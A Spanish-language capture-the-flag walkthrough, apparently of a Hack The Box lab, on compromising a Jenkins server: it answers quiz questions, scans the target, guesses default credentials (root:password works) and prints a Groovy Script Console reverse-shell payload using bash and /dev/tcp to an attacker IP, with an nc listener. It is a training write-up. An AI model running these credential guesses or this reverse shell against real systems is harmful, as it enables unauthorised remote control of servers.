









-------
- Tags: #commonapplications #jenkins #java #Reconnaisance #remotecodeexecution #DefaultCredentials 
---------



## 🌐 Información general

- **IP objetivo**: `10.129.185.130`
    
- **Servicio expuesto**: HTTP (Jetty)
    
- **Tecnologías clave**: Jenkins, Java
    

## ✅ Tarea 1: ¿Qué significan las siglas CVE?

🌠 **Respuesta**: `Common Vulnerabilities and Exposures`



### 🧠 Explicación:

CVE es un sistema de referencia pública que identifica vulnerabilidades conocidas. Cada CVE tiene un identificador único y proporciona detalles mínimos que ayudan a rastrear problemas de seguridad en software o sistemas.


## ✅ Tarea 2: ¿Qué significan las siglas de CIA en ciberseguridad?

🌠 **Respuesta**: `confidentiality, integrity, availability`



### 🧠 Explicación:

Se trata de la triada de principios fundamentales en ciberseguridad:

- **Confidentiality (Confidencialidad)**: proteger la información para que solo usuarios autorizados puedan acceder a ella.
    
- **Integrity (Integridad)**: asegurar que los datos no sean modificados sin autorización.
    
- **Availability (Disponibilidad)**: garantizar que los sistemas estén operativos y accesibles cuando se necesiten.


## ✅ Tarea 3: ¿Cuál es la versión del servicio que corre en el puerto 8080?

🔍 Escaneo con Nmap:

```bash
sudo nmap -sS -sV -p- 10.129.185.130
```



📋 **Resultado del escaneo**:

```bash
8080/tcp open  http  Jetty 9.4.39.v20210325
```

Jetty es un servidor web Java embebido, y esta versión específica es relevante para la detección de vulnerabilidades conocidas que podrían ser explotables.


### ✅ Tarea 4: ¿Qué versión de Jenkins se está ejecutando?

### 🧭 Enumeración web:

Accediendo a:

```bash
http://10.129.185.130:8080
```



🔍 Aunque en la interfaz web de Jenkins **no aparece visiblemente la versión**, se puede extraer la cabecera HTTP con:

```bash
curl -I http://10.129.185.130:8080
```



📋 Resultado:

```bash
X-Jenkins: 2.289.1
```

Esto confirma que la versión activa de Jenkins es la **2.289.1**, información importante para futuras búsquedas de exploits o configuraciones por defecto.


## ✅ Tarea 5: ¿Qué tipo de script acepta la consola de Jenkins?

📌 **Respuesta**: `Groovy`

🧠 La pista / hint  “Let’s get groovy!” hace alusión directa al lenguaje de scripting **Groovy**, que es el que utiliza internamente Jenkins para automatizar tareas o ejecutar scripts desde su **Script Console**.

💻 La consola de Jenkins permite escribir directamente scripts Groovy para:

- Ejecutar comandos en el sistema.
    
- Manipular trabajos, nodos y configuraciones.
    
- Potencialmente escalar privilegios o ejecutar RCE si se accede como admin.

## ✅ Tarea 6: ¿Qué valor tendría la variable `String cmd` en el script Groovy si la VM objetivo estuviera ejecutando Windows?

### 🧠 Explicación:

Cuando estamos ante una máquina Windows y queremos ejecutar comandos desde un script Groovy en la consola de Jenkins, necesitamos especificar el intérprete de comandos del sistema.

En sistemas Linux se utiliza `/bin/bash`, pero en **Windows** el terminal por defecto es:

```bash
cmd.exe
```

Este ejecutable permite lanzar comandos internos como `whoami`, `dir`, `ipconfig`, etc.


📌 Ejemplo de uso en Groovy Script Console:

```bash
def proc = "cmd.exe /c whoami".execute()
def output = proc.text
println(output)
```

📌 Nota: El flag `/c` indica que se debe ejecutar el comando especificado y luego terminar.

## ✅ Tarea 7: ¿Qué otro comando (distinto a `ip a`) podemos usar para mostrar la información de las interfaces de red en Linux?

🌠 **Respuesta**: `ifconfig`

### 🧠 Explicación:

Aunque el comando moderno recomendado es `ip a` (forma abreviada de `ip address`), **todavía se utiliza `ifconfig`** en muchos entornos Linux, especialmente en distribuciones antiguas o por costumbre de administradores.

- `ifconfig` forma parte del paquete **net-tools**, que en muchas distros nuevas **no viene instalado por defecto**.
    
- Muestra información como interfaces activas, direcciones IP, máscaras de red, estado (UP/DOWN), etc.

📌 Ejemplo de salida de `ifconfig`:

```bash
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe4e:66a1  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:4e:66:a1  txqueuelen 1000  (Ethernet)
        RX packets 1234  bytes 1048576 (1.0 MB)
```

📌 Si al intentar usarlo no lo tienes, puedes instalarlo con:

```bash
sudo apt install net-tools
```


## ✅ Tarea 8: ¿Qué opción debemos usar con Netcat para que utilice el modo de transporte UDP?

🌠 **Respuesta**: `-u`

### 🧠 Explicación:

El comando `netcat` (o `nc`) permite enviar y recibir datos a través de conexiones TCP y UDP. Por defecto, Netcat utiliza **TCP**.

- Para forzar el uso de **UDP**, se debe incluir la opción `-u`.

📌 Ejemplo de uso con UDP:

```bash
nc -u 10.129.185.130 1234
```

Esto abrirá una conexión a la IP objetivo por el puerto `1234` utilizando el protocolo **UDP** en lugar del predeterminado TCP.

📌 Este tipo de conexiones se usa frecuentemente para pruebas con servicios como **syslog**, **SNMP**, o para transferencias rápidas sin control de flujo.


## ✅ Tarea 9: ¿Cómo se llama la técnica que fuerza a un host víctima a conectarse de vuelta al atacante?

🌠 **Respuesta**: `reverse shell`

### 🧠 Explicación:

Una **reverse shell** es una técnica en la que el sistema víctima inicia una conexión hacia el atacante, dándole control remoto. Es útil cuando el atacante no puede entrar directamente al objetivo por firewalls o NATs.

🧠 Pista del ejercicio: “¿Puedes decir _She sells sea shells..._ al revés?” → hace referencia a _reverse shell_.


## 🛠️ Acceso al panel de Jenkins

Tras identificar que el servicio activo en el puerto `8080` corresponde a **Jenkins**, se accede mediante el navegador a:

```bash
http://10.129.182.172:8080
```

En el portal de login no se observan indicios de registro ni información de usuarios, por lo que se prueba un **ataque por diccionario de credenciales por defecto**.

## 🔐 Credenciales probadas (Brute-force manual)

Se intentan múltiples combinaciones de usuarios y contraseñas comunes:

- `admin:password` ❌
    
- `admin:admin` ❌
    
- `root:root` ❌
    
- `root:password` ✅
    
- `admin:admin1` ❌
    
- `admin:password1` ❌
    
- `root:password1` ❌


### ✅ Acceso exitoso

La combinación válida es:

```bash
Usuario: root
Contraseña: password
```



Esto permite iniciar sesión con privilegios administrativos y acceder directamente a la **Jenkins Script Console**:

```bash
http://10.129.182.172:8080/script
```

¡Perfecto! Ya que estás dentro de la **Jenkins Script Console**, puedes ejecutar directamente **comandos del sistema en el servidor** usando Groovy. Esto es exactamente lo que te da control total del sistema.



### 🧨 ¿Qué hacer desde aquí?

La idea es ejecutar un comando en Groovy que lance un terminal remoto (una reverse shell) o bien listar el contenido de archivos como `root.txt` para capturar la flag.


## 🔧 Opción : Reverse Shell en Linux (con listener preparado)

1. **En tu máquina local**, prepara un listener con `nc`:

```bash
nc -lvnp 4444
```

**En la consola de Jenkins**, pega este código Groovy:

```bash
def cmd = "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
def proc = ['bash','-c',cmd].execute()
proc.waitFor()
```

📌 Reemplaza `TU_IP` por tu dirección IP tun0 (la de HTB VPN).

## 📦 ¿De dónde sale?

Es una técnica ampliamente usada en pentesting, presente por ejemplo en:

- Cheatsheets como la de [PayloadsAllTheThings (GitHub)](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- Herramientas de explotación como metasploit o scripts de automatización
    
- Cursos de hacking ético, HTB Academy o TryHackMe cuando se abusa de Jenkins Script Console


🧠 ¿Qué hace cada línea?

```bash
def cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'"
```

- Prepara un comando que abre una reverse shell usando `/dev/tcp/...`.
    
- `'bash -i'`: lanza una shell interactiva.
    
- `>& /dev/tcp/10.10.14.159/4444`: redirige la entrada/salida al puerto 4444 de tu máquina.
    
- `0>&1`: redirige la entrada estándar a la salida estándar (necesario para que funcione bien la shell).

```bash
def proc = ['bash','-c',cmd].execute()
```

Ejecuta ese comando en el sistema operativo usando Groovy.

```bash
proc.waitFor()
```

- Espera a que se complete el proceso (esto mantiene la sesión viva mientras dure la shell).
    

---

## 🛡️ ¿Por qué funciona?

Jenkins Script Console tiene permisos **de sistema** cuando se ejecuta como root o administrador. Si no se ha restringido el entorno, puedes ejecutar comandos arbitrarios como si estuvieras en el terminal del servidor.


Si todo sale bien, te imprimirá directamente el contenido del archivo de la flag.



### 🔒 Seguridad en Jenkins

Esto es posible porque:

- Jenkins está corriendo como `root`.
    
- No se han limitado permisos en el panel `/script`.
    
- No hay validación de entrada o autenticación reforzada.
    

Esto representa una **vulnerabilidad crítica (RCE)** y es un vector muy común en entornos Jenkins mal configurados.
